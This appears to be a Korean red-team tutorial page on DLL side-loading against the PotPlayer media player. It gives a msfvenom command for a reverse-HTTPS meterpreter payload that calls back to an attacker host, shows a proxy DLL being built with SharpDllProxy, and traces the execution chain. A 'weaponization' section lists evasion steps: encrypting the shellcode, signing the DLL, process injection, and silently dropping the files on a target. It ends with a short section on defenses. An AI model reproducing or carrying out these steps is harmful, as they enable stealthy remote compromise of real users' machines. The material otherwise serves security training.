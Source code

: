 # DLL 사이드로딩 (DLL Side-Loading)

DLL 사이드로딩 (DLL Side-Loading)은 기본적으로 DLL 하이재킹 (DLL Search Order Hijacking) 과 비슷하지만, 조금 다른 기법이다. 윈도우에서 특정 프로그램들은 실행될 때 런타임 중 DLL을 불러와 필요한 코드를 실행한다. 이 때 이름은 같지만 공격자가 생성한 DLL을 프로그램 실행파일 (`.exe` ) 과 같은 디렉토리에 둬 공격자의 DLL이 로드되어 코드를 실행하도록 하는 공격이다.&#x20;

DLL 사이드로딩은 DLL 프록시로딩 (DLL Proxy Loading)이라고도 불리는데, 이는 로딩된 공격자의 DLL 맨 처음 Attach 될 때 실행하는 악성코드를 제외하고 프로그램이 요청하는 모든 DLL 함수들을 실제 DLL에게 모두 프록시 해 실행하기 때문이다. 어떻게 보면 DLL 중간자  공격과 비슷한 개념이다. 이 때문에 프로그램의 입장에서는 비록 공격자의 DLL이 불려와졌다곤 해도, 필요한 DLL 함수들은 실제 DLL에서 제대로 다 불러와 쓰기 때문에 프로그램이 크래시 되지 않는다.&#x20;

&#x20;

![출처: https://www.flangvik.com/2019/07/24/Bypassing-AV-DLL-Side-Loading.html 를 기반으로 수정한 다이어그램](../.gitbook/assets/dllsideloading.drawio.png)

### 실습&#x20;

실습은 K사의 32비트 기반 동영상 플레이어 프로그램을 기반으로 진행한다. 이와 관련된 연구는 이미 [2019년도에 공개](https://github.com/mandiant/DueDLLigence)되었으며, DLL 사이드로딩은 제로데이가 아닌 윈도우의 기능을 이용하는 방법일 뿐임을 알린다. **심지어 마이크로소프트사에서는 이를 취약점으로 인정하지 않기 때문에 패치도 없다!** 연구자들이 발표한 특정 DLL의 사이드로딩은 패치가 되어 막혔지만, 다른 라이브러리를 사이드로딩해 이를 우회할 수 있다.&#x20;

#### DLL 사이드로딩 정보 수집&#x20;

먼저 ConsciousHacker의 [WFH툴](https://github.com/ConsciousHacker/WFH)을 이용해 PE바이너리가 어떤 라이브러리들을 로딩하는지, 그 라이브러리들 중 어떤 라이브러리가 사이드로딩이 가능한지 확인한다.&#x20;

```
PS C:\opt\WFH> python .\wfh.py -t "C:\Program Files (x86)\DAUM\PotPlayer\PotPlayerMini.exe" -m dll
==================================================
Running Frida against C:\Program Files (x86)\DAUM\PotPlayer\PotPlayerMini.exe
--------------------------------------------------
        [+] Potential DllMain Sideloading: LoadLibraryW,LPCWSTR: C:\Program Files (x86)\DAUM\PotPlayer\PotPlayer.dll
        [-] Potential DllExport Sideloading: GetProcAddress,hModule : C:\Program Files (x86)\DAUM\PotPlayer\PotPlayer.dll, LPCSTR: PreprocessCmdLineExW
        < ... >
        [+] Potential DllMain Sideloading: LoadLibraryW,LPCWSTR: C:\Program Files (x86)\DAUM\PotPlayer\DaumCrashHandler.dll
        [-] Potential DllExport Sideloading: GetProcAddress,hModule : C:\Program Files (x86)\DAUM\PotPlayer\DaumCrashHandler.dll, LPCSTR: SetCrashHandler
        [-] Potential DllExport Sideloading: GetProcAddress,hModule : C:\Program Files (x86)\DAUM\PotPlayer\DaumCrashHandler.dll, LPCSTR: GetCrashHandler
        < ... >
```

이외에도 `DllMain` 과 `DllExport` 가 모두 사용 가능한 라이브러리들이 많이 나오지만, 일단 `PotPlayer.dll` 과 `DaumCrashHandler.dll` 에 주목한다. `PotPlayer.dll` 은 공개된 연구 이후 패치를 더해 사이드로딩이 막혔지만, `DaumCrashHandler.dll` 은 사이드로딩이 가능하다. 사이드로딩이 가능하다는 정보를 수집했으니 쉘코드와 프록시 DLL 생성 단계로 넘어간다.&#x20;

#### 프록시 DLL 생성&#x20;

DLL 생성 전, 공격에 사용될 쉘코드를 만든다. .NET 어셈블리를 donut 형태로 만들수도 있지만, 간단한 PoC를 위해 msfvenom을 이용해 meterpreter 쉘코드를 작성한다. 32비트 기반 프로그램과 DLL이기 때문에 쉘코드도 x86로 만든다.&#x20;

```
msfvenom -p windows/meterpreter/reverse_https -f raw lhost=192.168.40.182 lport=443 -o meter-x86.bin
```

이후 DLL과 쉘코드를 한 디렉토리에 옮긴 뒤, FlangVik의 [SharpDLLProxy툴](https://github.com/Flangvik/SharpDllProxy)을 이용해 프로그램에 로드가될 공격자의 프록시 DLL을 생성한다.&#x20;

```
# .\SharpDllProxy.exe --dll .\DaumCrashHandler.dll --payload .\meter-x86.bin

< ... > 

# ls


    Directory:
    C:\opt\SharpDllProxy\SharpDllProxy\bin\Debug\netcoreapp3.1\output_DaumCrashHandler


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----          7/1/2022   6:35 PM           2444 DaumCrashHandler_pragma.c
-a----          7/1/2022   6:35 PM         131232 tmp4405.dll
```

그러면 DLL 1개와 `.c` 소스코드 1개가 생긴다. 이 `tmp4405.dll` 이라는 파일은 이름이 바뀐 원래 `DaumCrashHandler.dll` 파일이다. 프록시 DLL이 될 파일은 `DaumCrashHandler_pragma.c` 이며, VS나 MVSC, CMake 등을 이용해 컴파일 해서 DLL로 만들면 된다.&#x20;

이제 준비된 파일들은 다음과 같다:&#x20;

* PotPlayerMini.exe - 실제로 실행될 PE 바이너리&#x20;
* tmp4405.dll - 원래 `DaumCrashHandler.dll` 파일. 이름만 바뀐 형태다.&#x20;
* DaumCrashHandler.dll - 공격자가 생성해낸, attach 시 쉘코드를 실행하는 프록시 DLL
* meter.bin - raw 형태의 쉘코드 파일. DaumCrashHandler.dll 가 attach이 이 쉘코드가 실행된다.&#x20;
* PotPlayer.dll - PotPlayerMini.exe가 실행할 때 꼭 필요한 라이브러리&#x20;

이제 이를 실행시키면 다음과 같은 형태로 코드 실행이 일어난다.&#x20;

1. PotPlayerMini.exe 파일이 실행되며 LoadLibrary를 이용해 DaumCrashHandler.dll 을 로드
2. DaumCrashHandler.dll 은 attach 되는 즉시 같은 디렉토리내의 meter.bin을 읽어와 실행&#x20;
3. PotPlayerMini.exe가 DaumCrashHandler.dll에서 사용하고 싶은 함수들은 모두 실제 DLL인 tmp4405.dll 에게 프록시되어 실행



암호화되지 않은, 기본적인 meterpreter 쉘코드와 인터넷에 공개되어 있는 PoC를 기반으로 실행한 DLL 사이드로딩의 결과는 다음과 같다.&#x20;

![](../.gitbook/assets/dll-sideloading.gif)

### 작전보안과 무기화&#x20;

위는 PoC 형태기 때문에 실제 작전에서 쓰이기에는 부족하다. 작전보안이나 무기화를 위해서는 다음과 같은 것들을 준비해야한다:&#x20;

1. meter.bin을 파일시스템에 드랍하는 것이 아닌, 쉘코드 형태로 DaumCrashHandler.dll 안에 넣어서 실행&#x20;
2. meter.bin 쉘코드를 암호화 한 뒤, 런타임 중 복호화해 실행&#x20;
3. 프록시 dll인 DaumCrashHandler.dll 파일에 [LimeLighter](https://github.com/Tylous/Limelighter)등의 툴을 이용해 디지털 서명 부과&#x20;
4. 메인 프로세스에 쉘코드를 로드하는 방식이 아닌 프로세스 인젝션을 통해 다른 프로세스에 인젝션&#x20;
5. PotPlayerMini.exe, tmp4405.dll, DaumCrashHandler.dll, PotPlayer.dll을 타겟 호스트에 같이 드랍하기 편하도록 압축 + 암호화 진행. 이후, 초기 침투 페이로드에서 코드 실행을 이용해 압축을 풀고 복호화를 진행한 후, PotPlayerMini.exe의 창이 보이지 않도록 silent 하게 실행&#x20;

### 대응 방안&#x20;

DLL 사이드로딩의 경우 블루팀이 이를 막는 방법도 있지만, 근본적으로는 소프트웨어 개발자 분들이 이를 원천봉쇄해야한다. DLL manifest 파일을 생성해 정해진 이름과 해시값의 DLL만 프로그램에 로드될 수 있도록 하는 것이 좋다.&#x20;

엔드 유저의 입장에서는, 어쨌든 공격자는 초기 침투 이후에 DLL 사이드로딩 기법을 사용하기 때문에 공격자에게 초기 침투 기회 자체를 제공하지 않는 것이 좋다.&#x20;

더 자세한 대응 방안을 위해서는 아래 Fireeye사의 레퍼런스의 페이지 10\~11을 참고한다.&#x20;

### 레퍼런스&#x20;

{% embed url="https://redteaming.co.uk/2020/07/12/dll-proxy-loading-your-favorite-c-implant/" %}

{% embed url="https://github.com/ConsciousHacker/WFH" %}

{% embed url="https://github.com/Flangvik/SharpDllProxy" %}

{% embed url="https://hijacklibs.net/" %}

{% embed url="https://www.wietzebeukema.nl/blog/hijacking-dlls-in-windows" %}

{% embed url="https://www.mandiant.com/sites/default/files/2021-09/rpt-dll-sideloading.pdf" %}
